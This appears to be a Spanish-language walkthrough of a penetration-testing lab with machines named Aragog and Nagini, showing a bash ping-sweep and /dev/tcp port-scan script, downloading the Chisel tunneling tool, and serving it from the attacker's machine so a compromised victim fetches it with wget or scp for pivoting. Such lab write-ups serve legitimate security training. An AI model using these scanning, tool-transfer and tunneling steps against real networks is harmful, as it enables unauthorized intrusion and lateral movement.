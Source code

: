 ### Descubrimiento de host y puertos:

Desde la máquina **Aragog** en principio podríamos ver la máquina **Nagini**. Vamos a comprobarlo y para ello usaremos el hostDiscovery.sh, se podría hacer de más formas.
```sh
# hostDiscovery.sh

#!/bin/bash

for i in $(seq 1 254); do
    timeout 1 bash -c "ping -c 1 10.10.0.$i" &>/dev/null && echo "[+] Host 10.10.0.$i - ACTIVE" &
done; wait
```
Damos permisos de ejecución al script `chmod +x hostDiscovery.sh` y ejecutamos el programa.

Nos descubre otra ip, la **10.10.0.129** que corresponderá a la máquina Nagini.

Para que funcione este método de descubrimiento de IPs mediante trazas icmp la opción tiene que ser aceptada por la máquina objetivo. Si no aceptará esta traza ICMP podríamos hacerlo mediante los puertos:
```sh
#!/bin/bash
# portDiscovery.sh (de los puertos más comunes).
for i in $(seq 1 254); do
    for port in 21 22 80 443 445 8080; do
        timeout 1 bash -c "echo '' > /dev/tcp/10.10.0.$i/$port" &>/dev/null && echo "[+] Host 10.10.0.$i - PORT $port - OPEN" &
    done
done; wait
```
Podemos realizar el esceno a través de un túnel tipo sock con **Chisel**.

### Descargando Chisel

En chisel github de jpillora --> releases --> chisel_1.7.7_linux_amd64.gz o la versión última que sea.
```sh
mkdir chisel # Para ser organizados
# Nos movemos el gunzip a esa carpeta.
gunzip chisel_1.7.7_linux_amd64
mv chisel_1.7.7_linux_amd64 chisel
chmod +x chisel
```

## Primer túnel.

Nuestra máquina atacante actuará como servidor en chisel y las máquinas víctimas serán las clientes. 

Tenemos que pasar el chisel a las víctimas, a esta primera máquina **Aragog** al estar en el mismo segmento lo podemos pasar directamente:
```sh
python3 -m http.server 80 #Desde mi máquina
```
```sh
wget http://MIIP/chisel
# También podrías con curl, o con scp ya que puedes conectarte por ssh con root, desde mi máquina:
scp chisel root@192.168.111.38:/tmp/chisel
```
